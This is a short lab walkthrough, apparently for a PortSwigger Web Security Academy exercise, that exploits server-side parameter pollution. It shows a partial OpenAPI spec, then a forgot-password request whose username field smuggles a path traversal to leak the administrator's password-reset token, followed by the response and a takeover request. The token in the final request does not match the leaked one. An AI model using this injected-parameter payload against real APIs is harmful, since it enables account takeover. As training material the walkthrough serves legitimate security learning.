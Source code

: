 ```json

{
  "openapi": "3.0.0",
  "info": {
    "title": "User API",
    "version": "2.0.0"
  },
  "paths": {
    "/api/internal/v1/users/{username}/field/{field}": {
      "get": {
        "tags": [
          "users"
        ],
        "summary": "Find user by username",
        "description": "API Version 1",
        "parameters": [
          {
            "name": "username",
            "in": "path",
            "description": "Username",
            "required": true,
            "schema": {
        ...
```
To get the **passwordResetToken** in the forgotPassword.js, send the following payload:
```
POST /forgot-password HTTP/2
Host: 0aa30016049e20128205d8d3000a0045.web-security-academy.net
Cookie: session=nb16w3pRozWy6osZy77N5kAeTeqqTs70
Content-Length: 103
Content-Type: x-www-form-urlencoded

csrf=...&username=../../v1/users/administrator/field/passwordResetToken%23
```
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 82

{
  "type": "passwordResetToken",
  "result": "3qzw1v1te9vtksz4efuuqkewg4nme5bj"
}
```
To login as administrator and solve the lab, send:
```
POST /forgot-password?passwordResetToken=snj8xba1of02zd0k7n5knwqu9q1lkwcb HTTP/2
```